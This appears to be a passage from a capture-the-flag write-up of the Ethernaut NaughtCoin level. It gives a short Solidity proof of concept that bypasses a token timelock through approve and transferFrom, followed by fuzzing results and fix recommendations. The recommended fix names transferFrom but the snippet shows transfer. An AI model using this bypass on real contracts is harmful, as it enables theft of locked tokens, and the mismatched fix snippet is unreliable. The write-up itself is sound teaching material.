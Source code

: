 ## Proof of Concept - hypothesis test ✅ 
The hypothesis has been proven to be true. You can see [the full PoC foundry unit test on my GitHub](https://github.com/ChmielewskiKamil/ethernaut-foundry/blob/main/test/15-NaughtCoin.t.sol). 

Here is a simplified version of the unit test:
```solidity
naughtCoinContract.approve(
	eve,
	naughtCoinContract.balanceOf(address(eve))
);

naughtCoinContract.transferFrom(
	address(eve),
	address(bob),
	naughtCoinContract.balanceOf(eve)
);
```

### Automated Testing and Verification

The following properties have been tested:

1. Player token balance should be equal to the initial supply. (❌  violated, if the 5th property is violated)
2. Token transfer should fail if current `block.timestamp < timelock`. ✅
3. Token should be deployed (`address(token) != address(0)`) ✅
4. The approve function should never fail if the caller has sufficient token balance && it does not run out of gas. ✅
5. Token transfer via `transferFrom` should fail if `block.timestamp < timelock` and/or spender has enough `allowance`. ❌
6. Player should not be able to burn tokens before the `timelockPeriod`. (❌  only because of the violation of the previous property, by sending tokens to non existing address, which effectively burns them)
7. There are no new tokens created because of the bad accounting (via `transferFrom`) ✅

## Recommendations
- Big numbers are hard to read. Consider separating them with underscores like so:
```
1000000 -> 1_000_000  
```

- Apply the `lockTokens` modifier to the `transferFrom` function as well:
```solidity
function transfer(address _to, uint256 _value)
	public
	override
	lockTokens
	returns (bool)
{
	super.transfer(_to, _value);
}
```
## References
- [John Regehr - Use of Assertions](https://blog.regehr.org/archives/1091)
- [ToB - Building secure contracts - Echidna](https://github.com/crytic/building-secure-contracts/blob/master/program-analysis/echidna/assertion-checking.md)
- [Learn how to fuzz like a pro: AMM Fuzzing - Justin Jacob](https://youtu.be/n0RaKKVTGvA?t=4171)
- You can also read this [on my blog](https://wizzardhat.com/ethernaut-level-15-naughtcoin/) 😎
